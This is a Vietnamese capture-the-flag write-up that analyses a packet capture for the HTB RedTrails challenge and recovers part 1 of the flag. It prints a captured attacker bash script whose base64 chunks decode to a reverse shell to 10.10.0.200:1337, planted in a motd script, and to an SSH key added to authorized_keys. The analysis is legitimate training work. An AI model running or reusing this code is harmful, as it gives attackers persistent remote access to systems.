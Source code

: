 # _REDTRAILS_
Lần này thử thách ở mức medium và flag được chia làm 3 phần
![image](https://github.com/user-attachments/assets/3580497d-6464-4fe6-a50a-cbbee1645a3b)

Tải về tệp zip, giải nén ta có được 1 file .pcapng, mình dùng wireshark để phân tích

![image](https://github.com/user-attachments/assets/9a9a2e07-9448-4f0b-aee3-7464ec81b8af)

Mở ra thì mình thấy có 2 giao thức quen thuộc là **TCP**, **HTTP** và 1 giao thức lần đầu mình gặp là **RESP**

![image](https://github.com/user-attachments/assets/4591df69-e5f7-4042-a6c2-69845dab820e)

Khi mình gặp **HTTP** thì mình thường dùng **export object HTTP** 

![image](https://github.com/user-attachments/assets/edfc54b5-1f16-457c-96f3-fa950caa3cc1)

Follow HTTP stream của packet đó ta được một đoạn hội thoại giữa client và server như sau

![image](https://github.com/user-attachments/assets/30c631b4-966e-4b88-b92e-1b084bfa81de)

Nhìn cũng chả hiểu gì nhưng mình thấy 1 đoạn mã rất giống base64 nhưng bị viết ngược, mình thử convert lại bằng python

![image](https://github.com/user-attachments/assets/676810c5-0bff-423c-8679-b2f59c6ecd57)

Lấy đoạn mã đó ném lên cyberchef from base64, ta được

```
#!/bin/bash

lhJVXukWibAFfkv() {
	ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
	QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
	gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash
}

x7KG0bvubT6dID2() {
	LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
	gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
	bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
	q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
	GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
	HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
	fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
	hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
	FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
	CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
	PIx1p="cw=="
	echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```
Theo ý hiểu của mình thì đây là một đoạn mã Bash bao gồm một tập hợp các hàm mã hóa bằng Base64, giải mã và thực thi mã đã giải bằng lệnh Bash. Nhìn thấy base64 khá ngứa tay nên viết 1 đoạn python để nối tất cả chúng lại

```
import base64

base64_strings = [
"ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R",
"jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9",
"ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK",
"ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL",
"M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52",
"bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH",
"ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s",
"bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK",
"UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr",
"R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3",
"SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp",
"emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw",
"Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5",
"cw==",
"lhJVXukWibAFfkv",
"x7KG0bvubT6dID2",

]
combined_base64 = "".join(base64_strings)
decoded_bytes = base64.b64decode(combined_base64)
decoded_string = decoded_bytes.decode('utf-8')
print(decoded_string)
```
Giải mã ta được 1 cái gì đó nhìn chả hiểu

![image](https://github.com/user-attachments/assets/96bbb608-cf11-4e11-a343-9405c40c1e5f)

Nhưng lấy dược part 1 của flag
```
HTB{r3d15_1n574nc35"
```




